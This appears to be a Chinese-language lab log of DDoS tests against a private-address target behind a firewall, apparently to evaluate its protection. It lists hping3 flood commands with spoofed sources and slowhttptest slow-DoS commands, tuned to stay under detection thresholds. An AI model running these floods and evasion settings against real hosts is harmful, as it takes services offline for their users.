



2026.04.03 DDos攻击测试记录#
# 流量检测手段：
sudo apt update && sudo apt install nload
nload eth0
ip -s -s link show eth0
watch -n 1 -d "ip -s link show eth0"一、ICMP DDos攻击#
16:20~16:22
# 【低等级】不伪造源，约发 3000 pps。 16:20
sudo hping3 --icmp -c 100000 -d 64 -i u400 172.31.132.2
# 【中等级】伪造源IP绕过源封锁，约发 6600 pps。 16:21
sudo hping3 --icmp -c 100000 -d 64 -i u150 --rand-source 172.31.132.2
# 【强等级】伪造源IP，极限泛洪。 16：22
sudo timeout 8s hping3 --icmp -d 64 --flood --rand-source 172.31.132.2二、UDP DDos攻击#
16:23~16:25
# 【低等级】不伪造源，约发 3000 pps。 16:23
sudo hping3 --udp -p 8080 -c 100000 -d 64 -i u333 172.31.132.2
# 【中等级】伪造源，约发50000pps。 16:24
sudo hping3 --udp -p 8080 -c 100000 -d 64 -i u20 --rand-source 172.31.132.2
# 【强等级】伪造源，极限泛洪。 16:25
# 如果此条仍未触发报警，说明单台攻击机性能达不到10万pps，需开启多个终端同时运行此命令。
sudo timeout 8s hping3 --udp -p 8080 -d 64 --flood --rand-source 172.31.132.2三、TCP Syn DDos攻击#
16:26~16:28
# 【低等级】伪造源。约发 6600 pps。 16:26
sudo hping3 -S -p 8080 -c 100000 -d 0 -i u150 --rand-source 172.31.132.2
# 【中等级】伪造源。约发 15000 pps。 16:27
sudo hping3 -S -p 8080 -c 100000 -d 0 -i u66 --rand-source 172.31.132.2
# 【强等级】伪造源，极限泛洪。 16:28
sudo timeout 8s hping3 -S -p 8080 -d 0 --flood --rand-source 172.31.132.2四、思路调试#
第一组：除了ICMP采用随机源ip，其余全部低于源ip封锁阈值
sudo hping3 --udp -c 100000 -d 1400 -i u550 -p 8080 172.31.132.2 # 1818 packet/s
sudo hping3 -S -c 100000 -d 1400 -i u160 --rand-source -p 8080 172.31.132.2 # 6250 packet/s
sudo hping3 --icmp -c 100000 -d 1400 -i u550 172.31.132.2 # 1818 packet/s第二组：降低包大小为800
sudo hping3 --udp -c 100000 -d 800 -i u550 -p 8080 172.31.132.2 # 1818 packet/s
sudo hping3 -S -c 100000 -d 800 -i u160 --rand-source -p 8080 172.31.132.2 # 6250 packet/s
sudo hping3 --icmp -c 100000 -d 800 -i u550 172.31.132.2 # 1818 packet/s第三组：增加udp和icmp采用rand-source，并减少包大小
sudo hping3 --udp -c 10000 -d 256 -i u200 --rand-source -p 8080 172.31.132.2 # 5000 packet/s
sudo hping3 -S -c 10000 -d 128 -i u80 --rand-source -p 8080 172.31.132.2 # 12500 packet/s
sudo hping3 --icmp -c 10000 -d 64 -i u200 --rand-source 172.31.132.2 # 5000 packet/s第四组：采用自己的ip攻击
sudo hping3 --udp -c 10000 -d 256 -i u200 -p 8080 172.31.132.2
sudo hping3 -S -c 10000 -d 128 -i u80 -p 8080 172.31.132.2
sudo hping3 --icmp -c 10000 -d 64 -i u200 172.31.132.24.10思路#
目标：
- 触发源IP封锁
- 绕过源IP封锁，触发目的IP丢包



单ip攻击#
sudo hping3 -S -c 1000000 -d 128 -i u80 -p 8080 172.31.132.2 # 11:22 12500 packet/s sudo hping3 –udp -c 1000000 -d 256 -i u100 -p 8080 172.31.132.2 # 11:38 10000 packet/s sudo hping3 –icmp -c 1000000 -d 64 -i u200 172.31.132.2 # 11:44 5000 packet/s
随机源ip攻击#
sudo hping3 -S -c 1000000 -d 128 -i u80 –rand-source -p 8080 172.31.132.2 # 11:50 sudo hping3 –udp -c 1000000 -d 256 -i u100 –rand-source -p 8080 172.31.132.2 # 11:56 sudo hping3 –icmp -c 1000000 -d 64 -i u200 –rand-source 172.31.132.2 # 12:02
UDP组攻击一：三组-d，速度统一，u100 =#
sudo hping3 –udp -c 1000000 -d 64 -i u100 –rand-source -p 8080 172.31.132.2 sudo hping3 –udp -c 1000000 -d 512 -i u100 –rand-source -p 8080 172.31.132.2 sudo hping3 –udp -c 1000000 -d 1000 -i u100 –rand-source -p 8080 172.31.132.2
UDP组攻击二：极限速度#
sudo hping3 –udp –flood -d 64 –rand-source -p 8080 172.31.132.2 sudo hping3 –udp –flood -d 512 –rand-source -p 8080 172.31.132.2 sudo hping3 –udp –flood -d 1000 –rand-source -p 8080 172.31.132.2
UDP组攻击三：单IP攻击#
sudo hping3 –udp –flood -d 64 -p 8080 172.31.132.2 sudo hping3 –udp –flood -d 512 -p 8080 172.31.132.2 #15:12左右 sudo hping3 –udp –flood -d 1000 –rand-source -p 8080 172.31.132.2
|攻击模式|对ping影响（正常时延5ms）|对web影响|攻击结果推测|防火墙行为推测|
|-------|---------|--------|-------|------------|
|SYN Flood（单IP）|略卡（刚开始平均时延250ms，接着到达一个临界点时延8900ms，往复循环）（停止攻击即恢复连通）|中断|Web中断，Ping周期性高延时。<br />海量SYN报文引发网络拥塞或设备处理瓶颈，导致正常Ping包被迫排队。由于“停止攻击即恢复连通”，证实网络层未发生绝对的IP级封锁|触发源IP阈值(2000)。<br />判定为恶意攻击，但未执行300s硬封锁，而是启动了**动态限速/实时丢包过滤**。其检测周期以秒为单位：超标即强行丢包（时延飙升），回落即放行（时延恢复），形成往复循环|
|UDP Flood（单IP）|正常|中断|Web中断，但Ping连通性正常。<br />基础网络通道未被切断，但靶机Web服务（8080端口）的应用层处理资源被海量UDP报文耗尽，无法处理正常的TCP请求。|触发源IP阈值(2000)。<br />防火墙启动防御，但采取了**“业务分离/精准清洗”**策略。仅针对发往8080端口的UDP超额流量进行丢弃，未采取全局封锁，主动放行了ICMP协议。|
|ICMP Flood（单IP）|断断续续（平均时延2900ms）（停止攻击即恢复连通）|中断|Web中断，Ping严重丢包且高延时。<br />合法的Ping探测包与洪泛攻击包同属ICMP协议，在网络层遭遇了无差别丢弃（同类相残现象）。|触发源IP(2000)和目的IP(4000)双阈值。<br />判定为恶意攻击。防火墙在网络层执行粗暴的实时限速过滤。由于无法区分正常Ping与恶意泛洪，对该源的所有ICMP流量进行了统一压制。|
|SYN Flood（随机源IP）|先正常，接着到达一个临界点时延3000~12000ms（停止攻击即恢复连通）|中断|前期短暂正常，随后Web中断、Ping严重拥塞。<br />靶机的整体入站带宽或连接数被瞬间打满，所有到达靶机所在网段的合法入站流量（含Ping）均受严重波及排队。|成功绕过源IP封锁，触发目的IP丢包阈值(10000)。<br />由于速率达12500 pps，防火墙判定目的地址受击。启动**目的IP全局限速保护**，无差别丢弃超额入站报文。|
|UDP Flood（随机源IP）|正常|中断|Ping完全正常，Web彻底瘫痪（**一次成功的DDoS**）。<br />攻击流量毫无阻碍地穿透网络层。靶机系统资源（网卡队列/CPU中断）因处理巨量垃圾UDP报文而彻底枯竭，业务宕机。|未触发任何防御拦截。<br />成功绕过源IP限制，且总速率(10000 pps)远低于**防火墙设置的UDP丢包阈值(100000)**。防火墙判定此流量“合法”，任由所有报文穿透。|
|ICMP Flood（随机源IP）|断断续续(平均时延2200ms)（停止攻击即恢复连通）|中断|Web中断，Ping断断续续。<br />攻击流量在到达靶机前被防火墙硬性截断了一部分。合法的Ping包在拥挤且受限的ICMP通道中被随机挤掉。|绕过源IP封锁，触发ICMP目的IP丢包阈值(4000)。<br />速率(5000 pps)超标。防火墙执行**基于目的IP的协议级限速**，将流向靶机的ICMP总速率强制压制在4000内，溢出的报文被全部丢弃。|
获得结果如下：
<img src="images/4.png" />
<img src="images/5.png" />
<img src="images/6.png" />
# 4.13DDos
## 一、DDos（桥接+防火墙关闭）（成功）
当前防火墙DDos防护信息
<div style="display: flex; justify-content: space-between;">
<img src="images/1.png" >
<img src="images/7.png" >
<img src="images/3.png" >
</div>
```ZSH
# -d参数调整思路：
# SYN组：-d 0主力, -d 120畸形攻击
# UDP组：-d 64(攻击cpu), -d 512, -d 1400(攻击带宽)
# ICMP组：-d 32(伪装Win), -d 56(伪装Linux), -d 1000(大包测试)| 攻击类型 | 开始 | 结束 | 命令 |
|---|---|---|---|
| 防火墙关闭，桥接模式，SYN Flood✅ | 10:28 | 10:32 | hping3 -S –flood -d 0 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，SYN Flood✅ | 10:34 | 10:37 | hping3 -S –flood -d 64 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，SYN Flood✅ | 10:40 | 10:43 | hping3 -S –flood -d 120 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，UDP Flood✅ | 10:45 | 10:48 | hping3 –udp –flood -d 0 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，UDP Flood✅ | 10：50 | 10：53 | hping3 –udp –flood -d 64 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，UDP Flood✅ | 10:55 | 10:58 | hping3 –udp –flood -d 512 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，UDP Flood✅ | 11:00 | 11:03 | hping3 –udp –flood -d 1400 -p 8080 172.31.132.2 |
| 防火墙关闭，桥接模式，ICMP Flood✅ | 11:05 | 11:08 | hping3 –icmp –flood -d 32 172.31.132.2 |
| 防火墙关闭，桥接模式，ICMP Flood✅ | 11:10 | 11:13 | hping3 –icmp –flood -d 56 172.31.132.2 |
| 防火墙关闭，桥接模式，ICMP Flood✅ | 11:15 | 11:18 | hping3 –icmp –flood -d 1000 172.31.132.2 |
| 防火墙开启，NAT模式，单ip ICMP✅ | 12:06 | 12:08 | hping3 –icmp –flood -d 1000 172.31.132.2 |
| 防火墙开启，NAT模式，随机源ICMP❌ | 12:10 | 12:12 | hping3 –icmp –flood –rand-source -d 1000 172.31.132.2 |
| 防火墙开启，桥接模式，单ip ICMP✅ | 12:15 | 12:16 | hping3 –icmp –flood -d 1000 172.31.132.2 |
| 防火墙开启，桥接模式，随机源ICMP✅ | 12:19 | 12:20 | hping3 –icmp –flood –rand-source -d 1000 172.31.132.2 |
| 防火墙关闭，NAT模式，单ip ICMP❌ | 12:23 | 12:24 | hping3 –icmp –flood -d 1000 172.31.132.2 |
| 防火墙关闭，NAT模式，随机源ICMP❌ | 12:27 | 12:28 | hping3 –icmp –flood –rand-source -d 1000 172.31.132.2 |
| 防火墙关闭，桥接模式，单ip ICMP✅ | 12:32 | 12:33 | hping3 –icmp –flood -d 1000 172.31.132.2 |
| 防火墙关闭，桥接模式，随机源ICMP✅ | 12:35 | 12:36 | hping3 –icmp –flood –rand-source -d 1000 172.31.132.2 |
| 攻击类型 | 开始（1min结束） | 命令 |
|---|---|---|
| 防火墙关闭，桥接模式，SYN Flood，6线程 | sudo hping3 -S –flood –rand-source -d 0 -p 8080 172.31.132.2 | |
| 防火墙关闭，桥接模式，UDP Flood，6线程 | sudo hping3 –udp –flood –rand-source -d 0 -p 8080 172.31.132.2 | |
| 防火墙关闭，桥接模式，UDP Flood，6线程 | sudo hping3 –icmp –flood –rand-source -d 56 172.31.132.2 | |
| 防火墙关闭，桥接模式，ICMP Flood（超大ICMP），6线程 | sudo hping3 –icmp –flood –rand-source -d 1000 172.31.132.2 |
二、慢dos（桥接+防火墙关闭）（失败）#
# 三种慢dos：slowloris模式（耗尽连接池）、slow post模式（耗尽写缓冲区）、slow read模式（耗尽读缓冲区）
slowhttptest -c 1000 -H -g -o slowloris_stats -i 10 -r 200 -t GET -u http://172.31.132.2:8080/
slowhttptest -c 1000 -B -g -o slow_post_stats -i 110 -r 200 -s 8192 -t POST -u http://172.31.132.2:8080/
slowhttptest -c 1000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -u http://172.31.132.2:8080/-H开启slowloris模式（发送不完整的Header）-c 1000建立1000个连接-i 10发送后续数据的间隔时间（秒）-r 200每秒建立200个连接-B开启slow body模式-s 8192声明content-length为8192字节-X开启slow read模式-w 512 -y 1024限制接收窗口大小
| 攻击类型 | 开始（1min结束） | 命令 |
|---|---|---|
| 慢dos（连接强度：高频）❌ | 16:11 | slowhttptest -c 1000 -H -g -o stats_fast -i 10 -r 500 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（连接强度：低频）❌ | 16:13 | slowhttptest -c 1000 -H -g -o stats_slow_rate -i 10 -r 10 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（发送间隔：长）❌ | 16:15 | slowhttptest -c 1000 -H -g -o stats_long_interval -i 30 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（发送间隔：短）❌ | 16:17 | slowhttptest -c 1000 -H -g -o stats_short_interval -i 3 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（慢速POST攻击）❌ | 16:19 | slowhttptest -c 1000 -B -g -o stats_slow_post -i 20 -r 200 -s 8192 -t POST -u http://172.31.132.2:8080/ |
4.14慢速Ddos#
| 慢ddos攻击类型 | 时间段 | 命令 |
|---|---|---|
| 低并发❌ | 9:26~9:28 | slowhttptest -c 500 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 中并发❌ | 9:30~9:33 | slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 高并发（测试吞吐极限）✅（但被L4传输层检测为syn攻击） | 9:35~9:39 | slowhttptest -c 5000 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 低连接速率❌ | 9:45~9:48 | slowhttptest -c 1000 -H -i 10 -r 10 -u http://172.31.132.2:8080/ |
| 高连接速率❌ | 9:51~9:54 | slowhttptest -c 1000 -H -i 10 -r 1000 -u http://172.31.132.2:8080/ |
| 超高连接速率（强制触发防御）❌ | 10:00~10:03 | slowhttptest -c 1000 -H -i 10 -r 2000 -u http://172.31.132.2:8080/ |
| 高频发送数据速率❌ | 10:05~10：08 | slowhttptest -c 1000 -H -i 5 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 极限型发送数据速率❌ | 10:10~10:13 | slowhttptest -c 1000 -H -i 60 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 慢ddos攻击类型 | 时间段 | 命令 |
|---|---|---|
| slowloris攻击（稳健） | 13:52~13:56 | slowhttptest -c 2000 -H -i 15 -r 50 -t GET -u http://172.31.132.2:8080/ |
| slowloris攻击（短发送间隔） | 14:02~14:06 | slowhttptest -c 2000 -H -i 5 -r 50 -t GET -u http://172.31.132.2:8080/ |
| slowloris攻击（高压） | 14:08~14:13 | slowhttptest -c 4000 -H -i 30 -r 80 -t GET -u http://172.31.132.2:8080/ |
| slow post攻击（标准） | 14:14~14:17 | slowhttptest -c 1500 -B -i 10 -r 40 -s 4096 -t POST -u http://172.31.132.2:8080/ |
| slow post攻击（极慢） | 14:20~14:22 | slowhttptest -c 2500 -B -i 20 -r 60 -x 5 -s 8192 -t POST -u http://172.31.132.2:8080/ |
| slow read攻击（窗口限制） | 14:23~14:28 | slowhttptest -c 1000 -X -r 30 -w 1 -y 2 -n 5 -u http://172.31.132.2:8080/ |
| slow read攻击（吞吐抑制） | 14:30~14:35 | slowhttptest -c 2000 -X -r 50 -w 5 -z 10 -n 10 -u http://172.31.132.2:8080/ |